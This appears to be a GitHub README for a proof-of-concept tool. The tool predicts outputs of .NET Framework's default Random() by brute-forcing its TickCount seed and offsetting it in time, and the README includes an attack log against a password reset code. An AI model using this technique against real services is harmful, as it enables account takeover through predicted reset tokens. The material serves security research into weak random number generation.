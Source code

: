 # net-framework-prng-oracle
The default `Random()` constructor in .NET Framework applications is [seeded](https://learn.microsoft.com/en-us/dotnet/api/system.random.-ctor?view=net-7.0) with machine's `TickCount` value -- milliseconds since boot.
`TickCount` is an unsigned 32-bit integer and can only have `4,294,967,295` possible values.

If you know the source code of the algorithm, it is possible to predict its result at any given point of time by obtaining the
output at point `X`, brute-forcing the associated `TickCount` seed value `A`, and then computing seed value `B` like so:

```
B = A + (Y - X)
```
Knowing seed value `B`, we can run the algorithm normally to obtain the desired result, e.g. a newly generated "random" password.

Since the default seed is bound to the milliseconds since the server's boot, this value is bound to be low if the machine is restarted often.

The provided code serves as an example attack on a password reset code that uses weak `Random()` function to generate its output. 
You can see full article describing this attack [here](TODO: edit me). Nonetheless, this type of attack is applicable to any algorithm that uses
PRNG `Random()` to generate its output.

### PoC
```
[!] Parsed PRNG results: [
        "Timestamp: "4/21/2022 8:59:12 PM"; Result: "!CJ.4nFHmYZ*"; Seed: -1"
]
[!] Parsed victim PRNG result timestamp: "4/21/2022 11:11:35 PM"
[!] Brute-forcing Random() seeds for the results
[*] [20:21:55] Result: "!CJ.4nFHmYZ*"; 0.00% done. 0 values processed
[*] [20:22:15] Result: "!CJ.4nFHmYZ*"; 0.39% done. 16,777,216 values processed
[+] [20:22:30] Result: "!CJ.4nFHmYZ*"; Found! Seed: 29774936
[!] Generating possible results in a 2 second window
[*] Attacker's timestamp: "4/21/2022 8:59:12 PM"; Victim's timestamp: "4/21/2022 11:11:35 PM"; Offset in milliseconds: 7943000
[*] Computed victim's seed value: 37717936 +- 2000 milliseconds
[+] Possible results saved to C:\Users\Administrator\Desktop\projects\net-framework-prng-oracle\PrngOracle\PrngOracle\bin\Debug\net6.0\results.txt
[+] Done! Happy hacking!
```